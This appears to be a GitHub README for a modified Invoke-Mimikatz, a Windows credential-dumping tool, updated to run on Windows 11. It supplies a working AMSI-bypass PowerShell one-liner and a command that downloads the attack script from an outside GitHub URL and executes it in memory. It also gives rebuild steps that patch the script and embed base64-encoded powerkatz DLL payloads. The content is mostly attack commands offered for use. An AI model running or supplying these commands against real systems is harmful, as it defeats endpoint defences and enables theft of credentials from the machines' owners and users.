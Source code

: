 # Invoke-Mimikatz for Windows 11
Updated version of Invoke-Mimikatz that runs on Windows 11.

## How to use

1. Bypass AMSI: 
```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);$ptr = [System.IntPtr]::Add([System.IntPtr]$g, 0x8);$buf = New-Object byte[](8);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 8)
```

2. Load Invoke-Mimikatz:
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tartofour/Invoke-Mimikatz/main/Invoke-Mimikatz.ps1')
```

3. Run Invoke-Mimikatz: `Invoke-Mimikatz`

## How to update the script

1. Download Invoke-Mimikatz.ps1 from the PowerShellMafia repo (https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1).
2. Change the following line:
`$GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress')` to `$GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress', [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null);`

3. Clone the mimikatz repo from ebalo55 (https://github.com/ebalo55/mimikatz/tree/main).
4. Open the project in VSCode.
5. Select "Second_Release_PowerShell" and build the project.
6. Base64 encode `Win32/powerkatz.dll` and `x64/powerkatz.dll`.
7. In `Invoke-Mimikatz.ps1`, replace the content of the `PEBytes64` and `PEBytes32` variables with base64 encoded payloads.

## References
- https://github.com/mitre/caldera/issues/38
- https://blog.harmj0y.net/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/ 

